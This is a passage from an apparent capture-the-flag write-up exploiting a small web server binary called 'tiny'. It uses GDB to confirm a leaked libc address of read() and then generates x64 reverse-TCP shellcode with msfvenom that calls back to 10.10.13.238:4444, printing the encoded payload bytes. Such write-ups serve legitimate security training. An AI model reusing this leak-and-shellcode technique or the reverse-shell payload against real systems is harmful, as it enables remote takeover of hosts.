 Fire up GDB again, and rerun the tiny in the same way. Set breakpoint, and hit r.
```sh
root@--name:/ctf/work# gdb -q tiny
Reading symbols from tiny...done.
pwndbg> b *0x000000000040178b
Breakpoint 1 at 0x40178b: file tiny.c, line 268.
pwndbg> r
Starting program: /ctf/work/tiny 
warning: Error disabling address space randomization: Operation not permitted
listen on port 9999, fd is 3
```
Go open another tab or something and run our script:
```
root@--name:/ctf/work# python stage1.py 
read() is at 0x7fa328ae2250
libc base is at 0x7fa3289eb000
```
Nice, so let's confirm that this indeed works. We are going to look and disassemble 0x7fa328ae2250 which is suposed to be address of read() function.

```sh
	pwndbg> disassemble 0x7fa328ae2250
	Dump of assembler code for function read:
	   0x00007fa328ae2250 <+0>:	cmp    DWORD PTR [rip+0x2d24e9],0x0        # 0x7fa328db4740 <__libc_multiple_threads>
	   0x00007fa328ae2257 <+7>:	jne    0x7fa328ae2269 <read+25>
	   0x00007fa328ae2259 <+0>:	mov    eax,0x0
	   ....
```

And it indeed is. We successfuly leaked address of read, and thus are able to calculate base of the libc ( you can play out, and test this by adding offsets to other functions/calls and check if they match).

<br />
Allright, now let's wrap up this. Since we now can tell where push RSP will be, we can use it to execute our shellcode from stack.
For sake of simplicity, i'm going to use msfvenom to generate reverse_tcp shellcode for x64, and use handler to connected back to it.

```sh
[badarg:/opt/metasploit-framework/bin]$ ./msfvenom -p linux/x64/shell/reverse_tcp LHOST=10.10.13.238 LPORT=4444  --bad-chars "\x00" -f python                                                        
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
Found 2 compatible encoders
Attempting to encode payload with 1 iterations of generic/none
generic/none failed with Encoding failed due to a bad character (index=56, char=0x00)
Attempting to encode payload with 1 iterations of x64/xor
x64/xor succeeded with size 175 (iteration=0)
x64/xor chosen with final size 175
Payload size: 175 bytes
Final size of python file: 850 bytes
buf =  ""
buf += "\x48\x31\xc9\x48\x81\xe9\xef\xff\xff\xff\x48\x8d\x05"
buf += "\xef\xff\xff\xff\x48\xbb\x6b\xa3\xb0\x9e\x3c\xe7\x62"
buf += "\xc7\x48\x31\x58\x27\x48\x2d\xf8\xff\xff\xff\xe2\xf4"
buf += "\x23\x92\x4f\xf4\x35\xbf\xfb\x71\x7b\xeb\x39\x48\x71"
buf += "\xd6\xab\xad\x49\xe2\xea\x2c\x3b\xe8\x67\x8f\xee\x63"
buf += "\xc8\xcc\x56\xed\x23\x9e\x3d\xf3\xda\xb7\x64\x7e\x08"
buf += "\xc5\x34\xc9\xb1\xc0\x33\xe2\x2a\x42\xab\xdb\x8b\xd6"
buf += "\xab\xaf\xdb\xc5\x6b\xb2\xec\x94\x36\xea\x8c\x96\x23"
buf += "\x2a\x56\xf4\x2c\xbd\x08\xed\x33\xac\xb5\xc7\x74\x62"
buf += "\xa2\xbe\x4e\xea\x4f\x57\x48\xff\x35\xad\x48\xfb\xda"
buf += "\x9e\x56\xe2\x2a\x4e\x8c\xeb\x81\x68\x33\xe2\x3b\x9e"
buf += "\x34\xeb\x35\x5e\x45\x20\x08\xfb\x33\xc9\xb1\xc1\x33"
buf += "\xe2\x3c\x9d\x64\xa6\xf8\x1b\xfc\x9f\x8d\x38\x8d\xa3"
```